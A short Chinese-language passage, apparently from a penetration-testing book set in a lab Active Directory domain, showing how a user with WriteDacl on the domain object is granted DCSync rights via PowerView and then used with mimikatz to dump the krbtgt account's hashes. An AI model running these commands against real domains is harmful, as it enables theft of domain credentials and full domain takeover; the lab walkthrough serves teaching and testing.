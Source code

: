 图 6.19 – jaime.lannister 用户具有对域对象的 WriteDacl 权限

我们可以授予用户 DCSync 权限，并通过以下命令执行攻击：

```
Add-DomainObjectAcl -Rights DCSync -TargetIdentity "DC=sevenkingdoms,DC=local" -PrincipalIdentity jaime.lannister -Verbose
mimikatz.exe "lsadump::dcsync /user:krbtgt /csv"
```

DCSync 攻击的结果如以下截图所示：

![图 6.20 – 成功的 DCSync 攻击](img/B18964_06_20.jpg)

